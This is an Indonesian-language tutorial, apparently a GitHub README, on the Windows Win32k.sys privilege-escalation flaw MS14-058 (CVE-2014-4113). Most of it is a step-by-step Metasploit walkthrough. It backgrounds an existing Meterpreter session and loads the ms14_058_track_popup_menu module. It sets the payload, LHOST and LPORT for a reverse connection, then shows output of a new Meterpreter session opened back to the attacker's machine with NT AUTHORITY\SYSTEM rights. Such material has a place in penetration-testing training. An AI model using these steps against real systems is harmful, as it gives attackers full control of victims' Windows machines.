 # MS14-058

## A. Apa itu MS14-058?

[MS14-058](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058) adalah kerentanan Local Privilege Escalation (LPE) pada sistem operasi Windows yang ditemukan di `Win32k.sys`, sebuah driver kernel-mode dari subsistem grafik Windows.

Kerentanan ini memungkinkan penyerang dengan hak akses terbatas (user biasa) untuk mengeksekusi kode arbitrer dalam mode kernel, dan mendapatkan hak akses tertinggi (`NT AUTHORITY\SYSTEM`).

## B. Detail Teknis:
- CVE ID: `CVE-2014-4113`
- Buletin Microsoft: `MS14-058`
- Tanggal Rilis: `14 Oktober 2014`
- Tipe: Local Privilege Escalation (LPE)
- Komponen: `win32k.sys`
- Arsitektur: `x86` dan `x64`
- Platform: `Windows`

## C. Sistem yang Rentan

Untuk melihat semua sistem yang rentan terhadap `MS14-058`, anda bisa melihatnya di dokumentasi resmi Microsoft: [https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058#affected-software](https://learn.microsoft.com/en-us/security-updates/securitybulletins/2014/ms14-058#affected-software)
  
## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Modul Exploit MS14-058:

   ```
   msf6 > use exploit/windows/local/ms14_058_track_popup_menu
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set TARGET <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and triggering the exploit...
   [*] Launching msiexec to host the DLL...
   [+] Process 2960 launched.
   [*] Reflectively injecting the DLL into 2960...
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [*] Meterpreter session 18 opened (192.168.1.42:4444 -> 192.168.1.50:49177) at 2025-05-14 17:01:01 +0700

   meterpreter >
   ```

   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```

   > Keterangan: `NT AUTHORITY\SYSTEM` adalah akun tertinggi di sistem Windows itu setara dengan `root` pada sistem Linux.
